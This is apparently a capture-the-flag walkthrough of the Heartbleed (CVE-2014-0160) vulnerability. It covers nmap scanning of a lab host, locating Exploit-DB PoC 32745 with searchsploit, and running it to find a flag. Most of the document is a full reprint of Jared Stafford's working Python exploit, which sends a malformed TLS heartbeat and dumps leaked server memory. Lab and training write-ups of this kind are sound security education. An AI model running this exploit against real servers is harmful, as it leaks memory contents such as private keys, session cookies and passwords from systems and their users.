 # HEARTBLEED

## Reconnaissance  

 gather information and plan future operations

### NMAP  

 `:> nmap 44.192.84.180`  

 ![namp 1](assets/heartbleed-01.png)  

 There are a number of potential attack points. Refine the recon by discovering services

 `:> nmap 44.192.84.180 -sV`
 
 ![Service Discovery](assets/heartbleed-02.png)  

 Scan the ports for identifiable vulnerabilities.  

  `:> nmap 44.192.84.180 -p 443 --script vuln`

  Scanning port 443 reveals the heartbleed vulnerability  

 ![Vulnerability Discovery](assets/heartbleed-03.png)  
 
## Resource Development  

  creating, purchasing, or compromising/stealing resources that can be used to support targeting



### EXPLOIT-DB  

 The go-to resource for proofs of concepts.  
 [Reviewing and choosing the PoC written by Jared Stafford](https://www.exploit-db.com/exploits/32745)

 ![Exploit-DB Vulnerability Banner](assets/heartbleed-04.png)  

 Alternatively, identify the exploit within kali linux

 `:> searchsploit heartbleed`  

  ![Searchsploit](assets/heartbleed-06.png)  



### Establish the heartbeat

 Open a web browser and establish the TLS connection

 ![Static Web Page](assets/heartbleed-05.png)  

## Initial Access  

 use of various entry vectors to gain initial foothold within a network

 Use one of the options identified by the searchsploit command to initiate the attack

 Copy the exploit from its home location to a working directory. I prefer to never work with an original.  

 `:> cp /usr/share/exploitdb/exploits/multiple/remote/32745.py ~/Documents`

 Execute the exploit, observe the feedback and see the site is vulnerable.

 `:> python2 32745.py`
 
  ![top results](assets/heartbleed-07.png)  
  ![bottom results](assets/heartbleed-08.png)  

 Finding the flag can be slightly easier by outputting the results to a text file.  
  `:> python2 32745.py > output.txt`

# The Python


````python
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.

import sys
import struct
import socket
import time
import select
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01                                  
''')

hb = h2bin(''' 
18 03 02 00 03
01 40 00
''')

def hexdump(s):
    for b in xrange(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = ' '.join('%02X' % ord(c) for c in lin)
        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
        print '  %04x: %-48s %s' % (b, hxdat, pdat)
    print

def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = ''
    remain = length
    while remain > 0:
        rtime = endtime - time.time() 
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata
        

def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print 'Unexpected EOF receiving record header - server closed connection'
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print 'Unexpected EOF receiving record payload - server closed connection'
        return None, None, None
    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
    return typ, ver, pay

def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print 'No heartbeat response received, server likely not vulnerable'
            return False

        if typ == 24:
            print 'Received heartbeat response:'
            hexdump(pay)
            if len(pay) > 3:
                print 'WARNING: server returned more data than it should - server is vulnerable!'
            else:
                print 'Server processed malformed heartbeat, but did not return any extra data.'
            return True

        if typ == 21:
            print 'Received alert:'
            hexdump(pay)
            print 'Server returned error, likely not vulnerable'
            return False

def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(hello)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

    print 'Sending heartbeat request...'
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
    main()

````